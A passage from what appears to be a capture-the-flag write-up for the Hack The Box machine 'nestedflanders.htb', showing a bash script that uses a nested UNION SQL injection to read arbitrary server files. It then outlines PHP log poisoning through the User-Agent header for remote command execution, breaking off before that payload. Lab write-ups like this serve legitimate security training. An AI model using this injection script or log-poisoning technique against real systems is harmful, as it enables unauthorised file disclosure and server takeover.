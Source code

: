 
{% include image.html image_alt="b81b10c0.png" image_src="/b3c66ec8-3480-4340-af69-0fd4aba980e9/b81b10c0.png" %}


Awesome but I need a better display. Towards that end, I wrote a `bash` script to help me read files.

<div class="filename"><span>read</span></div>

```bash
#!/bin/bash

HOST=www.nestedflanders.htb
URL="https://$HOST/index.php?id=465"
FILE="$1"
SQL=%27%20UNION%20ALL%20SELECT%20%22%27%20UNION%20ALL%20SELECT%20%27$FILE%27%20--%20avengers%22%20--%20endgame
curl -c cookie \
     -k \
     -s \
     -o /dev/null \
     $URL

curl -b cookie \
     -k \
     -s \
     ${URL}${SQL} \
| sed '27,$!d' \
| head -n -8

# clean up
rm cookie
```


{% include image.html image_alt="d1d6968e.png" image_src="/b3c66ec8-3480-4340-af69-0fd4aba980e9/d1d6968e.png" %}


Let's see if we can read the nginx configuration file.


{% include image.html image_alt="f8182226.png" image_src="/b3c66ec8-3480-4340-af69-0fd4aba980e9/f8182226.png" %}


If I can read any of the log files, then it's pretty clear that PHP log poisoning is next.


{% include image.html image_alt="af59bd59.png" image_src="/b3c66ec8-3480-4340-af69-0fd4aba980e9/af59bd59.png" %}


## Low-Privilege Shell

To poison the logs in order to achieve remote command execution, you need `openssl s_client` to send in PHP code, probaby through the User-Agent header like so.
